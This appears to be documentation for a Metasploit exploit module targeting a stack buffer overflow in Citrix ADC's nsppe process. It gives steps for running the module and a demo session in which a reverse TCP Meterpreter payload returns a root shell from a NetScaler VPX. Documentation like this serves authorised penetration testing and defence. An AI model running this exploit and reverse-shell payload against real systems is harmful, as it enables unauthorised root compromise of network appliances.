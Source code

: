 ## Vulnerable Application

A vulnerability exists within Citrix ADC that allows an unauthenticated attacker to trigger a stack buffer overflow of
the nsppe process by making a specially crafted HTTP GET request. Successful exploitation results in remote code
execution as root.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/freebsd/http/citrix/formssso_target_Rce`
4. Set the `RHOST`, `PAYLOAD` and payload-related options
5. Do: `run`
6. You should get a shell.

## Options

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Citrix ADC 13.1-48.47

NetScaler VPX instance for VMware ESX from `NSVPX-ESX-13.1-48.47_nc_64`.

```
msf6 exploit(freebsd/http/citrix_formssso_target_rce) > show options 

Module options (exploit/freebsd/http/citrix_formssso_target_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.130  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Citrix ADC 13.1-48.47



View the full module info with the info, or info -d command.

msf6 exploit(freebsd/http/citrix_formssso_target_rce) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (24768 bytes) to 192.168.159.30
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.30:36429) at 2023-07-31 17:34:18 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : cirtrix
OS           : FreeBSD 11.4-NETSCALER-13.1 FreeBSD 11.4-NETSCALER-13.1 #0 2596b10c4(rs_131_48_41_RTM): Sat Jun  3 00:57:48 PDT 2023     root@sjc-bld-bsd114-232:/usr/obj/usr/home/build/adc/usr.src/sys/NS64
Architecture : x64
Meterpreter  : python/freebsd
meterpreter > pwd
/
meterpreter > 
```
